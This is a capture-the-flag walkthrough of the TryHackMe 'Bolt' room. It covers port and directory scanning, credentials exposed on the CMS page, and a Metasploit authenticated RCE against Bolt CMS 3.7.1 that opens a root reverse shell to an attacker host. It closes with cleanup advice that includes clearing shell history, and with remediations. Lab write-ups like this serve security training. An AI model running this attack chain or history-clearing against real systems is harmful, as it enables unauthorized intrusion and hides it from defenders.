

# Try Hack Me — Bolt Walkthrough

---

## Author

**PulseEinher**

---

## Introduction

**Hello, stranger — let’s begin.**

---

## Challenge Link

Today’s problem is: https://tryhackme.com/room/bolt

---

## Challenge Overview

**Machine:** Bolt (THM)

**Path:** Port Scan → Web Enumeration → Credential Exposure → CMS Login → Bolt CMS 3.7.1 RCE → Reverse Shell → Root

**Key Takeaway:**  
Exposure of valid credentials combined with an outdated CMS version allowed authenticated remote code execution, resulting in immediate root compromise.

**Business Impact:**  
In a real-world content-driven platform (e.g., company website, blog, or marketing portal), this would allow an attacker to take over the CMS, modify or publish malicious content, and access stored articles, media, or unpublished drafts. This could lead to brand damage through defacement, distribution of malicious links to visitors, loss of proprietary content, and potential revenue impact if the website is used for customer acquisition or communication.

---

## Initial Setup

The following entry was added to the `/etc/hosts` file to simplify hostname-based interaction with the target system:

    <TARGET_IP> bolt.thm

---

## Port Scanning

The initial enumeration phase was started by performing a full port scan against the target machine using Nmap. The following commands were executed to identify open ports and active services:

    nmap -p- --open bolt.thm
    nmap -sC -sV -p <OPEN_PORTS> bolt.thm

    ┌──(root㉿vbox)-[~]
    └─# nmap -p- --open bolt.thm
    Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-24 22:34 +0530
    Nmap scan report for bolt.thm (10.48.174.137)
    Host is up (0.062s latency).
    Not shown: 65532 closed tcp ports (reset)
    PORT     STATE SERVICE
    22/tcp   open  ssh
    80/tcp   open  http
    8000/tcp open  http-alt

    Nmap done: 1 IP address (1 host up) scanned in 63.24 seconds

    ┌──(root㉿vbox)-[~]
    └─# nmap -sC -sV -p 22,80,8000 bolt.thm
    Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-24 22:36 +0530
    Nmap scan report for bolt.thm (10.48.174.137)
    Host is up (0.042s latency).

    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
    |   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
    |_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
    80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Apache2 Ubuntu Default Page: It works
    8000/tcp open  http    (PHP 7.2.32-1)
    |_http-title: Bolt | A hero is unleashed
    |_http-generator: Bolt

---

## Services Identified

    22 -> SSH
    80,8000 -> HTTP

As no login credentials were present, further enumeration focused on publicly accessible services, i.e., HTTP.

---

## Initial Web Enumeration

Port 80 was observed to be running the default Apache Ubuntu webpage, which did not provide any useful information for further exploitation.

The web application was identified to be hosted on a Bolt CMS instance on port:

    8000

The webpage reveals a username in an entry named “Message from Admin”:

    bolt

The webpage also revealed a message from the Admin to the IT Department, which contained a password string.

This indicates that sensitive credentials were exposed through publicly accessible content.

> Note -> Simple credential exposure through publicly accessible pages is often mitigated in real-world environments by access controls and content sanitization. In practice, sensitive strings are rarely exposed directly and may require deeper enumeration, indirect disclosure, or chaining with other vulnerabilities to retrieve usable credentials.

---

## Directory Enumeration

A directory enumeration scan was also performed against the HTTP service using Gobuster to identify any further hidden or restricted endpoints on the HTTP port 8000.

    ┌──(root㉿vbox)-[~]
    └─# gobuster dir -u http://bolt.thm:8000  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
    ===============================================================
    Gobuster v3.8.2
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://bolt.thm:8000
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.8.2
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    search               (Status: 200) [Size: 5546]
    pages                (Status: 200) [Size: 4987]
    entries              (Status: 200) [Size: 6657]
    showcases            (Status: 200) [Size: 4986]
    bolt                 (Status: 500) [Size: 14906]

---

## MITRE ATT&CK

- T1595 — Active Scanning  
- T1046 — Network Service Discovery  

---

## CMS Login

The scan revealed an endpoint `/bolt`, which presented a login page.

The login page was accessed using the credentials discovered earlier.

After successful authentication, the dashboard revealed that the Bolt CMS version in use was:

    Bolt 3.7.1

---

## Vulnerability Identification

A vulnerability search was then performed for this version.

It was identified that Bolt CMS versions around 3.7.x are vulnerable to authenticated remote code execution.

Exploit-DB contained details about this vulnerability under the following EDB-ID:

    48296

This vulnerability allows authenticated users to achieve remote code execution due to improper handling of file uploads and execution paths within the CMS.

More details can be found here:

https://www.exploit-db.com

---

## Exploitation (Metasploit)

The Metasploit Framework was used to search for a suitable exploit module.

    msf > search Bolt 3.7.1

    exploit/unix/webapp/bolt_authenticated_rce

The full path for the exploit module is:

    exploit/unix/webapp/bolt_authenticated_rce

Set the following values in the exploit:

    set RHOSTS bolt.thm
    set LHOST <ATTACKER_IP>
    set USERNAME bolt
    set PASSWORD boltadmin123

After running the exploit, a reverse shell session was successfully obtained as the root user.

    msf exploit(unix/webapp/bolt_authenticated_rce) > run

    whoami
    root

---

## MITRE ATT&CK

- T1190 — Exploit Public-Facing Application  
- T1059 — Command and Scripting Interpreter  

---

## Shell Stabilization

The reverse shell can be stabilised using the following command:

    python3 -c 'import pty; pty.spawn("/bin/bash")'

---

## Flag Retrieval

The following command was used to locate the flag.txt file within the system:

    find / -type f -name "flag.txt" 2>/dev/null

The flag.txt can be obtained from the “/home” directory:

    /home/flag.txt

    root@bolt:/home# cat flag.txt
    <<<FLAG>>> !!!

---

## Cleanup

1. The reverse shell spawned via the Bolt CMS exploit should be terminated.  
2. Any web shell artifacts temporarily created during exploitation should be verified as removed.  
3. Shell history for the root session should be cleared.  

---

## Remediations

1. Remove exposed credentials from publicly accessible content.  
2. Update Bolt CMS from version 3.7.1 to a patched version.  
3. Restrict file upload and execution paths within the CMS.  
4. Enforce strong authentication controls.  
5. Monitor and restrict outbound connections.  

---

## Conclusion

We are done with the machine……….

Let’s move to the next, till then  
Have a good day (night too)

---

## Disclaimer

This content is intended for educational purposes only.
